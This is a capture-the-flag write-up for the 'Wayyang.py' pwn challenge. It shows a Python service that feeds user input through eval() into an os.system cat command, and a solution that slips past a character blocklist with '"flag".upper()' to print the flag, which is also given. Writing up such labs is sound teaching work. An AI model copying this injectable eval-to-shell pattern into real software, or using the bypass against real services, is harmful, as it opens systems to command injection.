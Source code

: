 # 🧑‍🎓 Wayyang.py

**Category**: Pwn

100 points | 209 solves

----

## Challenge Description

Infintesky as a service <3

`nc [ip]`

## Attached files

* wayyang.py

### wayyang.py

I just need to preserve this glorious ASCII art ok

```py
#!/usr/local/bin/python
import os

FLAG_FILE = "FLAG"

def get_input() -> int:
    print('''                 ,#####,
                 #_   _#
                 |a` `a|
                 |  u  |            ________________________
                 \  =  /           |        WAYYANG         |
                 |\___/|           <     TERMINAL  v1.0     |
        ___ ____/:     :\____ ___  |________________________|
      .'   `.-===-\   /-===-.`   '.
     /      .-"""""-.-"""""-.      \
    /'             =:=             '\
  .'  ' .:    o   -=:=-   o    :. '  `.
  (.'   /'. '-.....-'-.....-' .'\   '.)
  /' ._/   ".     --:--     ."   \_. '\
 |  .'|      ".  ---:---  ."      |'.  |
 |  : |       |  ---:---  |       | :  |
  \ : |       |_____._____|       | : /
  /   (       |----|------|       )   \
 /... .|      |    |      |      |. ...\
|::::/'' jgs /     |       \     ''\::::|
'""""       /'    .L_      `\       """"'
           /'-.,__/` `\__..-'\
          ;      /     \      ;
          :     /       \     |
          |    /         \.   |
          |`../           |  ,/
          ( _ )           |  _)
          |   |           |   |
          |___|           \___|
          :===|            |==|
           \  /            |__|
           /\/\           /"""`8.__
           |oo|           \__.//___)
           |==|
           \__/''')
    print("What would you like to do today?")
    print("1. Weather")
    print("2. Time")
    print("3. Tiktok of the day")
    print("4. Read straits times")
    print("5. Get flag")
    print("6. Exit")

    choice = int(input(">> "))

    return choice


if __name__ == '__main__':
    choice = get_input()

    if choice == 1:
        print("CLEAR SKIES FOR HANDSOME MEN")
    elif choice == 2:
        print("IT'S ALWAYS SEXY TIME")
    elif choice == 3:
        print("https://www.tiktok.com/@benawad/video/7039054021797252399")
    elif choice == 4:
        filename = input("which news article you want babe :)   ")
        not_allowed = [char for char in FLAG_FILE]

        for char in filename:
            if char in not_allowed:
                print("NICE TRY. WAYYANG SEE YOU!!!!!")
                os.system(f"cat news.txt")
                exit()

        try:
            os.system(f"cat {eval(filename)}")
        except:
            pass
    elif choice == 5:
        print("NOT READY YET. MAYBE AFTER CTF????")
```

----

## Solution

When looking at the source code, we can see that the flag file is called `FLAG`. We can also see that choice 4 lets us `cat` a file.

If we try inputting `FILE`, it blocks us, and outputs a different text file instead:

```text
>> 4
which news article you want babe :)   FLAG
NICE TRY. WAYYANG SEE YOU!!!!!
WAYYANG DECLARED SEXIEST MAN ALIVE

SINGAPORE - In the latest edition of Mister Universe, Wayyang won again, surprising absolutely no one.
The judges were blown away by his awesome abdominals and stunned by his sublime sexiness.
When asked for his opinions on his latest win, Wayyang said nothing, choosing to smoulder into the distance.
```

Truly top tier journalism.

It turns out that it blocks us from inputting any file name containing the characters `F`, `I`, `L`, or `E`:

```py
elif choice == 4:
        filename = input("which news article you want babe :)   ")
        not_allowed = [char for char in FLAG_FILE]

        for char in filename:
            if char in not_allowed:
                print("NICE TRY. WAYYANG SEE YOU!!!!!")
                os.system(f"cat news.txt")
                exit()
```

However, we can also see that if it passes the check, it first `eval()`s our input and then substitutes the result into a `cat` statement:

```py
        try:
            os.system(f"cat {eval(filename)}")
        except:
            pass
```

The `eval()` function runs its input as Python code and returns the output. If we make our input evaluate to `"FLAG"` after running it in Python, we can make it run `cat FLAG`. To do this, we can make use of the Python method `.upper()` to convert a lowercase string `"flag"` to its uppercase version `"FLAG"`. Since it only blocks the uppercase characters, our input is allowed through and we can get the flag:

```text
>> 4
which news article you want babe :)   "flag".upper()
SEE{wayyang_as_a_service_621331e420c46e29cfde50f66ad184cc}
```

### Flag

```text
SEE{wayyang_as_a_service_621331e420c46e29cfde50f66ad184cc}
```
